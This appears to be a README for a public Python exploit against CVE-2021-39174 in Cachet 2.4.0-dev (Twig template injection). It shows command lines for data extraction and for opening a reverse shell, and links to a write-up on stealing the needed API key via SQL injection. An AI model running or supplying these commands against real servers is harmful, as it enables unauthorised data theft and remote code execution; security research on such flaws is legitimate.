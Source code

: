 # Project Title

CVE-2021-39174 Cachet 2.4.0-dev Information Disclosure and Remote Code Execution

## Description

A python3 script for CVE-2021-39174 Cachet 2.4.0-dev Information Disclosure and RCE via Twig Server Side Template Injection. For the RCE the API KEY for the user is needed. Check out the Leave Songs link below which covers how to get the API KEY via SQL Injection CVE-2021-39165.

## Getting Started

### Executing program

* Data Extraction
```
python3 cachet_2.4.0-dev.py -t http://cachet.site/ -u username -p password
```

* Reverse Shell
```
python3 cachet_2.4.0-dev.py -t http://cachet.site/ -u username -p password -k API_KEY -lhost 127.0.0.1 -lport 1337
```

## Help

For help menu:
```
python3 cachet_2.4.0-dev.py -h
```

## Acknowledgments

* [SonarSource](https://blog.sonarsource.com/cachet-code-execution-via-laravel-configuration-injection/)
* [Leave Songs](https://www.leavesongs.com/PENETRATION/cachet-from-laravel-sqli-to-bug-bounty.html)

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.